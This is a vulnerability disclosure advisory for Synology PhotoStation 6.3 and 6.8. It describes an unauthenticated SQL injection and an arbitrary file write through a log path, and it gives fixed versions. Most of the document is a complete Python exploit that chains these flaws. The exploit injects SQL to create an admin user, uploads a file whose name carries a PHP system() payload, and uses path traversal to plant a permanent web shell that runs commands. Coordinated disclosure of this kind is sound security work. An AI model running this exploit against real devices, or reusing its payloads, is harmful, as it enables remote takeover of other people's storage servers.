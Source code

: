 **Vulnerabilities Summary**<br>
The following advisory describes two vulnerabilities found in Synology PhotoStation, an unauthenticated SQL injection combined with an authenticated arbitrary file writing with partially controlled data vulnerabilities which leads to remote code execution.

**Credit**<br>
Independent security researcher, MengHuan Yu, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected systems**<br>
<table>
  <thead>
    <tr>
      <th>Product</th>
      <th>Severity</th>
      <th>Fixed Release Availability</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Photo Station 6.8</td>
      <td>Important</td>
      <td>Upgrade to 6.8.11-3489 or above.</td>
    </tr>
    <tr>
      <td>Photo Station 6.3</td>
      <td>Important</td>
      <td>Upgrade to 6.3-2977 or above.</td>
    </tr>
  </tbody>
</table>

**Vendor Response**<br>
“We have updated the acknowledgments page. If you have any questions, please do not hesitate to contact us.”
https://www.synology.com/en-global/security/advisory/Synology_SA_19_01

**Vulnerability Details**<br>
PhotoStation is a package on Synology’s NAS (Network Attached Storage). PhotoStation creates a website `'/photo/'` and a database under their default web root.

**First Vulnerability – Unauthenticated SQL Injection**<br>
PhotoStation’s website is exposed to the internet by default. The parameter `type` of the function `getExifList` in `include/photo/synophoto_csPhotoDB.php` is used to create a SQL query.

`$query = 'SELECT DISTINCT '.$type.' FROM photo_image ORDER BY ' .$type;`

The query is executed in `ListExif` function inside `webapi/photo.php`.

We can exploit this vulnerability in order to to select/insert/delete/edit any data in the database. This will cause a remote code execution if combined with another vulnerability.

**Second Vulnerability – Arbitrary File Writing with Partially Controlled Content**<br>
In order to exploit this vulnerability, the following requirements are needed:
* Access to PhotoStation website
* Having file upload permission.
* If the guest uploading is enabled, the vulnerability can be triggered without being logged in (Unauthenticated)
* If the personal PhotoStation is enabled, a normal user can trigger the vulnerability.
* If there is a XSS vulnerability, we can attack users with upload permission and trigger an upload
* Any user with file upload permissions that visits a malicious website, can be attacked because PhotoStation does not have a protection from Cross Site Request Forgery.

The `SYNOPHOTO_AJAX_HANDLER_DoFaceRecognition` of `ajax_handler.php` uses `"/tmp/synophoto_facerecog.".$_POST['prog_id'];` to log the process. However, `prog_id` is user controlled data, which means that the attacker can control the process log’s path. The log content will contain the image name that we want to process. We can exploit it by uploading the log file under the webroot and control the filename and upload a php script.

Any arbitrary SQL statement can create an admin privileged user, which means that by using the first SQL injection vulnerability, we can always create a user with file uploading permissions, and then trigger the second vulnerability in order to achieve remote code execution.

**Exploit**<br>
This exploit trigger the two vulnerabilities and creates a web shell.

```python
import requests
import hashlib
import os
import time
import string
import random

# TODO
HOST = '<your host ip>'

# ------------------------------------------------------------------------------

def hexstr(s):
    return s.encode('hex')
def md5(s):
    return hashlib.md5(s).hexdigest()
def randstr(n = 10):
    return ''.join([random.choice(string.ascii_letters) for i in range(10)])

username = 'RCE'
password = 'RCE'
uploaded_image_name = randstr() + '-<?php system($_GET[cmd]); ?>.jpg'
webroot = '/var/packages/PhotoStation/target/photo/'
permanent_shell_name = randstr() + '.php'
cmd = 'echo; echo; id; echo;'

sess = requests.Session()
def stage1():
    payload = " 1; "
    payload += "UPDATE photo_config SET config_value='0' WHERE config_key='account_system'; "
    payload += "Insert into photo_user (userid, username, password, description, lock_pass, admin, disabled, email) "
    payload += "VALUES (1, '%s', '%s', '', 'f', 't', 'f', 'mail'); " % (username, md5(password))
    payload += ' -- '

    r = requests.post('http://%s/photo/webapi/photo.php' % HOST, data = {
        'version': '1',
        'method': 'listexif',
        'api': 'SYNO.PhotoStation.Photo',
        'type': payload
    })
    print r.text


def stage2():
    global sess

    r = sess.post('http://%s/photo/webapi/auth.php' % HOST, data = {
        'api': 'SYNO.PhotoStation.Auth',
        'method': 'login',
        'version': '1',
        'username': username,
        'password': password,
    })
    print r.text
    assert '"success":true' in r.text


def stage3():
    global sess

    # a valid small jpg, the content is not important
    content = '/9j/2wBDAAMCAgICAgMCAgIDAwMDBAYEBAQEBAgGBgUGCQgKCgkICQkKDA8MCgsOCwkJDRENDg8QEBEQCgwSExIQEw8QEBD/yQALCAABAAEBAREA/8wABgAQEAX/2gAIAQEAAD8A0s8g/9k='.decode('base64')

    r = sess.post('http://%s/photo/webapi/file.php' % HOST, data = {
        'api': 'SYNO.PhotoStation.File',
        'method': 'uploadphoto',
        'version': '1',
        'dest_folder_path': '',
        'duplicate': 'ignore',
        'filename': uploaded_image_name,
        'mtime': '1234567890000'
    },
        files={'original': (uploaded_image_name, content, 'image/jpeg')}
    )
    print r.text
    assert '"success":true' in r.text


def stage4():
    global sess

    photoid = 'photo_%s_%s' % (hexstr('/'), hexstr(uploaded_image_name))
    path = '/../../../../' + webroot + permanent_shell_name
    while True:
        time.sleep(1.0)
        r = sess.post('http://%s/photo/ajax_handler.php' % HOST,
            data={
                'action': 'face_recog',
                'id': photoid,
                'prog_id': path,
            }
        )
        print r.text
        if '"success":true' in r.text:
            break

def stage5():
    r = requests.get('http://%s/photo/%s' % (HOST, permanent_shell_name), params = {
            'cmd': cmd
    })
    print r.text


def main():
    print '=== Synology PhotoStation Un-auth RCE ==='

    print '1. Using SQLi change the server setting and create admin account'
    stage1()
    print ''

    print '2. Login with injected account'
    stage2()
    print ''

    print '3. Upload image with craft filename'
    stage3()
    print ''

    print '4. Trigger RCE vulnerability with uploaded image and create permanent web shell'
    stage4()
    print ''

    print '5. RCE with permanent web shell located at /photo/%s' % permanent_shell_name
    stage5()

if __name__ == '__main__':
    main()
```
